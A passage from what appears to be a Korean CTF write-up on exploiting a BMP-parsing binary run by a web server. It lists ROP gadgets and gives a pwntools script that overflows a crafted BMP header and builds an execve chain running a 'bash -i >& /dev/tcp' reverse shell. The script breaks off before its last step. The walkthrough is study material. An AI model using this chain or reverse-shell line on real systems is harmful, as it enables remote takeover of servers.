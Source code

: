 이런 방식으로 유용한 가젯을 뽑아낸다면 아래와 같을 듯 하다.

```
0x004560ba: mov [rax], rdx; nop; pop rbp; ret;
0x0042f51a: mov rax, rdx; pop rbp; ret;
0x0045b2fb: pop rdi; ret;
0x0045b2f9: pop rsi; pop r15; ret;
0x0042cd0c: pop rdx; ret;
0x0044d224: syscall;
```

또한, 서버단에서 바이너리를 한 번 실행시켜주고 끝나기 때문에 곧바로 쉘을 따야한다. 그것도 리버스쉘을 따내야 하는데, 이는 바이너리 실행의 주체가 클라이언트가 아니라 웹 서버이기 때문이다. 따라서, 웹 서버가 실행함과 동시에 공격자의 서버로 리버스쉘을 실행하는 코드를 짜내야 할 것이다.

마침 필요한 가젯은 모두 모았으니 이제 ROP를 해 보자.


### [0x03] 익스플로잇

---

```python
from pwn import *

mov_rax_mem_rdx = 0x004560ba # mov [rax], rdx; nop; pop rbp; ret;
mov_rax_rdx = 0x0042f51a # mov rax, rdx; pop rbp; ret;
pop_rdi = 0x0045b2fb # pop rdi; ret;
pop_rsi_r15 = 0x0045b2f9 # pop rsi; pop r15; ret;
pop_rdx = 0x0042cd0c # pop rdx; ret;
syscall = 0x0044d224
def write_what_where(addr, val):
    assert(len(val) <= 8)
    pl = p64(pop_rdx) + p64(addr)
    pl += p64(mov_rax_rdx) + p64(0)
    pl += p64(pop_rdx) + val.ljust(8, b'\x00')
    pl += p64(mov_rax_mem_rdx) + p64(0)
    return pl

with open("bmp_24.bmp", "rb") as f:
    data = f.read()
    header = data[:0x12] + p32(0x8000) + p32(0x0) + data[0x1a:0x36]

IP = '127.0.0.1'
PORT = 8080
reverse_shell = f'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'.encode()

bss = 0x48aaa8

payload = header
payload += b'A'*0x38
payload += write_what_where(bss, b'/bin/bas')
payload += write_what_where(bss + 8, b'h')
payload += write_what_where(bss + 0x10, b'-c')
num_writes = int((len(reverse_shell)/8) + 1)
for i in range(num_writes):
    payload += write_what_where(bss + 0x18 + (8*i), reverse_shell[i*8:i*8+8])

binbash = bss
bashoption = bss + 0x10
bashcommand = bss + 0x18

payload += write_what_where(bss + 0x70, p64(binbash))
payload += write_what_where(bss + 0x78, p64(bashoption))
payload += write_what_where(bss + 0x80, p64(bashcommand))
payload += p64(pop_rdx) + p64(59) + p64(mov_rax_rdx) + p64(0)
payload += p64(pop_rdi) + p64(binbash)
```